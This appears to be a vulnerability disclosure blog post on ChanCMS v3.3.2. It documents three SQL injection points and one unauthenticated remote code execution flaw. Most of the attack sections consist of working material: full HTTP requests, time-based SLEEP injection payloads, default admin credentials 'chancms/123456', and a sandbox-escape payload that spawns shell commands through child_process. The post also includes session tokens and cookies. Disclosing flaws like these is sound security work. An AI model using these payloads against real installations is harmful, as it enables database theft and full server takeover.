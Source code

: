 ```yaml
---
title: ChanCMSv3.3.2
---
```


*Author：Narcher*	*Date：2025/10/5*	*Category：Vulnerability Discovery*

<!--more-->

> Project Source Code: [ChanCMS: ChanCMS is a high-quality and practical CMS system developed based on Node, Express 5, MySQL, and Vue 3. Lightweight, flexible, stable, high-performance, and easily extensible, it makes development simpler.](https://gitee.com/chancms/ChanCMS)
>
> Project Version: v3.3.2

The following are the four vulnerabilities identified during the audit:

### /cms/article/findField

After downloading the source code, deploy it directly and log in to the admin panel at `/public/admin/index.html` using the weak credentials `chancms/123456`.

Code auditing reveals that the `findField` function in `/cms/article/findField?cid=8` does not validate the input parameters.

<img src="ChanCMSv3.3.2/image-20251005195854334.png" alt="image-20251005195854334" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251005195950511.png" alt="image-20251005195950511" style="zoom:50%;" />

By modifying the `cid` parameter, SQL injection can be performed:

<img src="ChanCMSv3.3.2/image-20251005203317104.png" alt="image-20251005203317104" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251005200056475.png" alt="image-20251005200056475" style="zoom:50%;" />

Directly modifying the URL requires adding a token, which is obtained after logging in as **chancms**.
 The contents of `d.txt` are as follows:

```
GET /cms/article/findField?cid=1 HTTP/1.1
Host: 192.168.58.128:3000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36 Edg/141.0.0.0
token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk2NTgwNTAsImV4cCI6MTc1OTc0NDQ1MH0.TUAhZOpCwbRrLIm47WHbfneK-lomsez0IJT9LwPgqIM
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: _f=8527be76bbea52883d793f95035cf2e5; pos={%22ip%22:%22218.194.42.136%22%2C%22country%22:%22%E4%B8%AD%E5%9B%BD%22%2C%22prov%22:%22%E5%9B%9B%E5%B7%9D%22%2C%22city%22:%22%E6%88%90%E9%83%BD%22%2C%22isp%22:%22CERNET%22%2C%22lat%22:30.5723%2C%22lng%22:104.067%2C%22district%22:%22610000%22}; _i=218.194.42.136; t=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk2NTgwNTAsImV4cCI6MTc1OTc0NDQ1MH0.TUAhZOpCwbRrLIm47WHbfneK-lomsez0IJT9LwPgqIM; n=chancms; perms=api.site.query%2Capi.category.list%2Capi:category:add%2Capi:category.edit%2Capi:article:list%2Capi:article.add%2Capi:article:edit%2Capi:slide:list%2Capi:slide:add%2Capi:slide.edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:collect:list%2Capi:collect:add%2Capi:collect:edit%2Capi:gather:index%2Capi:gather:add%2Capi:gather:eidt%2Capi:model:list%2Capi:model:add%2Capi:model:edit%2Capi:field:list%2Capi:field:add%2Capi:field:edit%2Capi:friendlink:list%2Capi:friendlink:add%2Capi:friendlink:edit%2Capi:message:list%2Capi:message:add%2Capi:message:edit%2Capi:user:list%2Capi:user:add%2Capi:user:edit%2Capi:role:list%2Capi:role:add%2Capi:role:edit%2Capi:menu:list%2Capi:menu:list%2Capi:configtype:list%2Capi:config:list%2Capi:resource:all%2Capi:template:list%2Capi:upload:list
Connection: keep-alive
```

When running locally you can see a WAF is present, but it failed to block the payload:
 `/cms/article/findField?cid=1+AND+(SELECT+1103+FROM+(SELECT(SLEEP(5)))vbUE)`

<img src="ChanCMSv3.3.2/image-20251005200453009.png" alt="image-20251005200453009" style="zoom:50%;" />

The SQL injection is successful.



### /cms/article/update

Log in to the admin panel at `/public/admin/index.html` using the weak credentials `chancms/123456`.

Code auditing revealed that the `update` function in `/cms/article/update` does not validate the `cid` parameter.

<img src="ChanCMSv3.3.2/image-20251005201715297.png" alt="image-20251005201715297" style="zoom:50%;" />

```
[Vuln: sqldet]
Target           "http://192.168.58.128:3000/cms/article/update"
VulnType         "blind-based/default"
Payload          "(select*from(select+sleep(2)union/**/select+1)a)"
Position         "body"
ParamKey         "id"
ParamValue       "(select*from(select+sleep(2)union/**/select+1)a)"
sleep_time       "2000"
p_time           "11"
n_time           "4013"
stat             "{\"normal\":{\"samples\":[107,112,88,75,58,56],\"avg\":82.66666666666667,\"std_dev\":21.830152440043918,\"sleep_time\":2},\"sleep_0_time\":11,\"quick_check\":{\"samples\":[4013],\"sleep\":2},\"verify\":{\"samples\":[6013,6012,6011],\"sleep\":3}}"
title            "Generic MySQL time based case [number/column]"
type             "time_based"
avg_time         "82"
std_dev          "21"
```

<img src="ChanCMSv3.3.2/image-20251006123321111.png" alt="image-20251006123321111" style="zoom: 33%;" />

 The contents of `d.txt` are as follows:

```
POST /cms/article/update HTTP/1.1
Host: 192.168.58.128:3000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36 Edg/141.0.0.0
token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk3MjQ4NDgsImV4cCI6MTc1OTgxMTI0OH0.9PY83sb3PNmXkGHggc0SqMffRmb6gXWc8vobB4GhMzw
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: _f=8527be76bbea52883d793f95035cf2e5; pos={%22ip%22:%22218.194.42.136%22%2C%22country%22:%22%E4%B8%AD%E5%9B%BD%22%2C%22prov%22:%22%E5%9B%9B%E5%B7%9D%22%2C%22city%22:%22%E6%88%90%E9%83%BD%22%2C%22isp%22:%22CERNET%22%2C%22lat%22:30.5723%2C%22lng%22:104.067%2C%22district%22:%22610000%22}; _i=218.194.42.136; n=chancms; perms=api.site.query%2Capi.category.list%2Capi:category:add%2Capi:category.edit%2Capi:article:list%2Capi:article.add%2Capi:article:edit%2Capi:slide:list%2Capi:slide:add%2Capi:slide.edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:collect:list%2Capi:collect:add%2Capi:collect:edit%2Capi:gather:index%2Capi:gather:add%2Capi:gather:eidt%2Capi:model:list%2Capi:model:add%2Capi:model:edit%2Capi:field:list%2Capi:field:add%2Capi:field:edit%2Capi:friendlink:list%2Capi:friendlink:add%2Capi:friendlink:edit%2Capi:message:list%2Capi:message:add%2Capi:message:edit%2Capi:user:list%2Capi:user:add%2Capi:user:edit%2Capi:role:list%2Capi:role:add%2Capi:role:edit%2Capi:menu:list%2Capi:menu:list%2Capi:configtype:list%2Capi:config:list%2Capi:resource:all%2Capi:template:list%2Capi:upload:list; t=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk3MjQ4NDgsImV4cCI6MTc1OTgxMTI0OH0.9PY83sb3PNmXkGHggc0SqMffRmb6gXWc8vobB4GhMzw
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

cid=111111
```



### /cms/collect/getArticle

Although the `getArticle` function in `app/modules/cms/controller/collect.js` uses `app/middleware/guard.js` as a WAF to intercept requests, the WAF is incomplete and can be bypassed.

<img src="ChanCMSv3.3.2/image-20251006161304637.png" alt="image-20251006161304637" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251006161531724.png" alt="image-20251006161531724" style="zoom:50%;" />

Since this interface lacks permission validation, it can be accessed without logging in, leading to command execution：

<img src="ChanCMSv3.3.2/image-20251008145238157.png" alt="image-20251008145238157" style="zoom:50%;" />

POC:

```
POST /cms/collect/getArticle HTTP/1.1
Host: 192.168.58.128:3000
Content-Length: 301
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36 Edg/141.0.0.0
Accept: application/json, text/plain, */*
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.58.128:3000
Referer: http://192.168.58.128:3000/public/admin/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive

{"taskUrl":"http://opinion.people.com.cn/n1/2025/1006/c1003-40577077.html","titleTag":"#newstit","articleTag":".rm_txt_con","parseData":"return (p => p.getBuiltinModule('child_process').spawnSync('whoami', [], {}).output[1].toString())(this.constructor.constructor('return process')())","charset":"1"}
```

<img src="ChanCMSv3.3.2/image-20251008145827345.png" alt="image-20251008145827345" style="zoom:50%;" />

Allows direct command execution.

If the target Node.js is an older version, the following POC can be used:

```
return this.constructor.constructor('return process')().mainModule.require('child_process').execSync('id').toString()
```



### /cms/model/hasUse

Log in to the admin panel at `/public/admin/index.html` using the weak credentials `chancms/123456`.

Code auditing revealed that the `hasUse` function in `/cms/model/hasUse?id=1` does not validate the `id` parameter.

<img src="ChanCMSv3.3.2/image-20251006170206614.png" alt="image-20251006170206614" style="zoom:67%;" />

<img src="ChanCMSv3.3.2/image-20251006200453286.png" alt="image-20251006200453286" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251006200511107.png" alt="image-20251006200511107" style="zoom:50%;" />

